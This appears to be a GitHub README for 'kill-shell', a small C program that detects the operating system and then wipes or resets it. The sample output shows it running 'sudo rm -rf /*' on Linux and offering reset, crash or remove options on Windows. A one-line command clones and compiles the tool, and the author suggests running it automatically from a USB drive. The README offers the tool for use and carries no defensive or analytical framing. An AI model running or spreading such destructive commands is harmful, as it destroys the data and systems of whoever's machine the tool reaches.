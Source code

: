 # kill-shell
simple c program thats spawns a shell wants executed, this shell will detect your os and upon entering will erase or reset the system V1.0

# warning
THIS SHELL WILL KILL OR RESET YOUR SYSTEM, FOR LINUX THIS WILL AUTOMATICALLY KILL EVERYTHING ON YOUR DESK AND REMOVE THE ROOT SYSTEM, YOU HVAE BEEN WARNED, DO NOT COMPILE AND EXECUTE IF YOU ARE NOT GOING TO USE IT 

features 

CROSS PLATFORM FOR WIN64, WIN32, Linux
```
shell

***********************************************
*         GHOST UTERM FOR OS-REM              *
*           2021-10-16 08:07:25               *
*                                             *
***********************************************
[-] Operating System Detected -> linux

[-] Using -> sudo rm -rf /*

--------------------- Listed/Avalible commands ---------------------
[+] Press Enter : Will continue with the deletion/factory reset process

 >>>>^C

```

#secondary shell if the OS isnt a range 

```
***********************************************
*         GHOST UTERM FOR OS-REM              *
*           2021-10-16 08:23:37               *
*                                             *
***********************************************
Operating System -> windows

[?] This OS is recognizeed as a windows system

[?] Would you like to reset, crash, or remove it

[?] re - reset |      
Options -> re

[+] Starting command.....

[+] Executing......

```


#all in one command 
linux
```
git clone https://github.com/ArkAngeL43/kill-shell.git ; cd kill-shell ; sudo apt-get install gcc ; gcc main.c -o main ; gcc run.c -o run ; clear ; echo '[+] Done'
```
windows 
``` 
download a exe compiler 
compile all c code make sure 
the exe for run  = run 
the exe for main = main

then 

run the exe 


```


this also will work on a USB in case you want to have a chip automatically run these command files, this was a little project so i figured why not post it 

